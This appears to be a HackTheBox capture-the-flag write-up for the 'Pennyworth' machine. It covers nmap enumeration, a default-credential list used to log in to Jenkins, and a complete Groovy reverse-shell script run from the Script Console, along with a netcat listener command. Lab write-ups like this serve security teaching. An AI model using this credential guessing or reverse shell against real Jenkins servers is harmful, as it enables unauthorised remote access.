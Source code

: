```yaml
---
title: "HackTheBox - Pennyworth"
author: Nasrallah
description: ""
date: 2022-07-01 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, jenkins, groovy]
img_path: /assets/img/hackthebox/machines/pennyworth/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Pennyworth](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.193.169 (10.129.193.169)
Host is up (1.2s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
```

Found port 8080 open running jetty web server.

### Web

Let's navigate to port 8080.

![](1.png)

Found a login page for Jenkins.

#### ffuf

Let's run a directory scan.

![](2.png)

Let's navigate to **/oops** page.

![](3.png)

This page reveals Jenkins version number. This version doesn't seem to be vulnerable to anything serious.

Let's try some default default credentials and attempt to login.

```text
 - admin:admin
 - admin:password
 - admin:qwerty123
 - admin:root
 - root:root
 - root:admin
 - root:password
```

We managed to login using `root:password`.

## **Foothold**

Now that we managed to login as root, we can use script console to get a reverse shell.

At Jenkins Dashboard go to Manage Jenkins and then select Script Console.

![](4.png)

At the script console, we can run any Groovy program code we want. So we will run the following script that would give us a reverse shell.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](6.png)

Next we need to setup a netcat listener to receive the shell.`nc -lvnp 9001`.

Now press run and you should get a shell.

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
